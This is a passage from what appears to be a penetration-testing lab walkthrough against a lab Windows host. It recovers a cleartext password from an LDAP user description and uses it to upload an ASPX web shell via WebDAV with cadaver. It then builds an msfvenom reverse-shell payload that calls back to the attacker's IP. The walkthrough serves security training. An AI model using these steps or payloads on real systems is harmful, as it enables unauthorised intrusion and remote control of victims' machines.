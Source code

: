 ```
dSCorePropagationData: 20201104053513.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 132489443869160701
...
```

The output is rather lengthy, but as we carefully parse it, we discover that the description of the Freddy McSorley (`fmcsorley`) user may contain a cleartext password.

```
Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
```

If we combine this discovery with WebDAV, we should be able to obtain a reverse shell.

## Exploitation

### WebDAV Web Shell

Let's begin our exploitation with the ASPX web shell from **/usr/share/webshells/aspx/cmdasp.aspx** and upload it via WebDAV with the `cadaver` tool and the recovered credentials.

```
kali@kali:~$ cadaver http://192.168.120.108
Authentication required for 192.168.120.108 on server `192.168.120.108':
Username: fmcsorley
Password: CrabSharkJellyfish192
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx
Uploading /usr/share/webshells/aspx/cmdasp.aspx to `/cmdasp.aspx':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
dav:/> 
```

We'll leave the WebDAV connection open for now. If we navigate to http://192.168.120.108/cmdasp.aspx, we should be able to execute commands on the target.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_57_image_1_vGnhk4an.png)

### Upgrade to Reverse Shell

To upgrade to a full reverse shell, we'll first generate an `msfvenom` payload using local port 445 for our listener.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.5 LPORT=445 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```
